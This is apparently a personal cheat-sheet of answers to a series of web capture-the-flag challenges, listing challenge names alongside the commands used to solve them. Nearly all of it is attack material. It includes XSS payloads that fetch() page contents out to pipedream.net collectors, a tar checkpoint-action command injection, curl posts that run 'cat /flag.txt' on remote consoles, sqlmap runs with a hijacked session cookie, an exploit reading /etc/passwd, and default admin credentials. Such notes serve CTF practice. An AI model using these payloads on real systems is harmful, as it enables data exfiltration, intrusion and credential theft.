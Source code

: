 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh  https://github.com/nikhil1232/LibSSH-Authentication-Bypass

12 authorization  dirsearch -u IP                     curl -X POST http://34.159.62.179:30798/auth             (aplikacia) ModHeader: Authorization        JWT   <TOKEM>



https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)
